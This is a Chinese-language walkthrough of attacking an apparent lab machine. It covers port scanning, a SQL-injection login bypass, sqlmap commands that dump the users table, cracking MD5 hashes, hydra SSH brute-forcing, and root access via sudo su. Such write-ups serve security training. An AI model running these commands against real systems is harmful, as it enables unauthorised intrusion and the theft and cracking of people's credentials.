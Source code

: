 
# 0x00环境
攻击机IP：192.168.1.28<br />目标机IP：192.168.1.136


# 0x01实战

## 端口扫描
```
nmap -sV-A -p- 192.168.1.136
```

![](https://img-blog.csdnimg.cn/06f9bb21f26e4248bf200e0bbe90e8aa.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=LvD0x&originHeight=830&originWidth=789&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以看到开放了很多端口，其中80、8080、901、10000是http服务，那么我们就先去尝试访问这几个端口<br />`http://192.168.1.136/`就是正常的Web页面<br />![](https://img-blog.csdnimg.cn/0ca90ba913004f3596faf83fc49aea45.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=tkPKj&originHeight=762&originWidth=1794&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


`http://192.168.1.136:8080/login.php`是一个登录的页面

![](https://img-blog.csdnimg.cn/1028febb4172421a9e60ef9ca7f7e6fe.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Zx4UF&originHeight=497&originWidth=1020&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

`http://192.168.1.136:901/`也是需要登录才能查看

![](https://img-blog.csdnimg.cn/5337157f858f402d9582632b163cb00a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=n3623&originHeight=505&originWidth=1376&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

`http://192.168.1.136:10000/`也是一个登录页面，尝试了万能密码无法绕过。

![](https://img-blog.csdnimg.cn/6ba0266e8dd54622a16dc4a8a5b6e37b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=dynnf&originHeight=451&originWidth=1390&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 漏洞发现
经过长时间的查找发现在`http://192.168.1.136:8080/login.php`处存在SQL注入可以使用万能密码绕过<br />![](https://img-blog.csdnimg.cn/be9802c3e1d34272a83fa13224469837.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_15,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=mCizj&originHeight=363&originWidth=528&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

成功登录<br />![](https://img-blog.csdnimg.cn/b606382ad9ab46d894518f4fd09fdf12.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=xHDqE&originHeight=349&originWidth=1269&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 漏洞利用
使用sqlmap跑一下，使用burp抓包，将数据包保存并命名为sql.txt<br />暴库
```
sqlmap -r sql.txt --dbs
```
![](https://img-blog.csdnimg.cn/c23052c979e3483e8df59454a86eb176.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=zkUAb&originHeight=700&originWidth=1134&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

![](https://img-blog.csdnimg.cn/58985710aa4d41bb84783ace3506c6d4.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=YmU5k&originHeight=376&originWidth=711&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

爆表
```
sqlmap -r sql.txt -D website --tables
```
![](https://img-blog.csdnimg.cn/7bdef8dc27bb41658851d5614804493c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_12,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=UtB1i&originHeight=354&originWidth=428&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

暴字段
```
sqlmap -r sql.txt -D website -T users --columns
```
![](https://img-blog.csdnimg.cn/c5e9565ccaaa4da583cca7f7560e88bd.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_14,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=msEeV&originHeight=368&originWidth=504&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

拖库
```
sqlmap -r sql.txt -D website -T users -C username,password --dump
```
![](https://img-blog.csdnimg.cn/beb300253f6b4d0587ed4469e283b0b1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Df7Dm&originHeight=483&originWidth=1087&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

将用户名和密码拖下来分别保存为username.txt和password.txt，使用john破解密码
```
john --format=Raw-MD5 password.txt
```
![](https://img-blog.csdnimg.cn/4b388e2fa5f64674947192422d4c56d0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=y7xZE&originHeight=446&originWidth=1173&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

太慢了还是使用网站

- [https://www.cmd5.com/](https://www.cmd5.com/)
- [https://www.somd5.com/](https://www.somd5.com/)

最终结果<br />![](https://img-blog.csdnimg.cn/52a35d18a5e149a597417b9f1ef4cd4f.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_9,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=NTkbD&originHeight=361&originWidth=349&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

将得到的明文密码保存为password2.txt，使用hydra进行爆破
```
hydra -L username.txt -P password2.txt -t 4 192.168.1.136 ssh
```

![](https://img-blog.csdnimg.cn/08dfa2d7ca76425fa864c0974eb774a9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=ASgoS&originHeight=513&originWidth=1224&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在前面的端口扫描中我们看到开放了22-SSH端口，尝试登录，登录成功。<br />![](https://img-blog.csdnimg.cn/30b75a45a7ab465283793cad45de1489.png#crop=0&crop=0&crop=1&crop=1&id=j5aRB&originHeight=170&originWidth=1272&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)


## 提权
查看当前用户可以使用的sudo权限
```
sudo -l
```
![](https://img-blog.csdnimg.cn/82bb7e6bc7ea435db42589231a1fb2ed.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=JCf6W&originHeight=462&originWidth=1018&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以看到当前用户可以以root身份运行所有命令<br />尝试使用`sudo su`提升权限，成功拿到root权限
```
sudo su
```
![](https://img-blog.csdnimg.cn/4577f6127e8f44cfa957328978c49d75.png#crop=0&crop=0&crop=1&crop=1&id=shZZf&originHeight=147&originWidth=1202&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

